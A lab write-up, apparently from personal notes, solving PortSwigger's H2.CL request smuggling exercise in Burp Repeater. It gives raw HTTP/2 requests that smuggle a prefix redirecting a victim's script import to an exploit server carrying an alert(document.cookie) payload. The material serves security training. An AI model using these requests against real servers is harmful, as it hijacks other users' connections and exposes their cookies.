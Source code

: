 # H2.CL request smuggling

I just spent 30 minutes wasting my time clicking a send button every 10 seconds without resolving the lab. Cam back to it two weeks later, and got it to solve. It can take a long time.

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling) is vulnerable to request smuggling because the front-end server downgrades `HTTP/2` requests even if they have an ambiguous length. 

## Reproduction and proof of concept

1. From the Repeater menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
2. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an `HTTP/2` request by including a `Content-Length: 0` header as follows. Expand the Inspector's Request Attributes section and change the protocol to `HTTP/2` before sending the request.

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

SMUGGLED
```

3. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
4. Using Burp Repeater, notice that if you send a request for `GET /resources`, you are redirected to `https://lab-id.web-security-academy.net/resources/`.
5. Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary Host header:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```

6. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
7. Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
8. In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Length: 5

x=1
```
    
9. Send the request a few times and confirm that you receive a redirect to the exploit server.
10. Resend the request and wait for 10 seconds or so.
11. Go to the exploit server and check the access log. If you see a `GET /resources/` request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.
12. Once you have confirmed that you can cause the victim to be redirected to the exploit server, repeat the attack until the lab solves. This may take several attempts because you need to time your attack so that it poisons the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, although their browser will load your malicious JavaScript, it won't execute it.

## Exploitability

An attacker will need to perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds. This lab requires Pro.

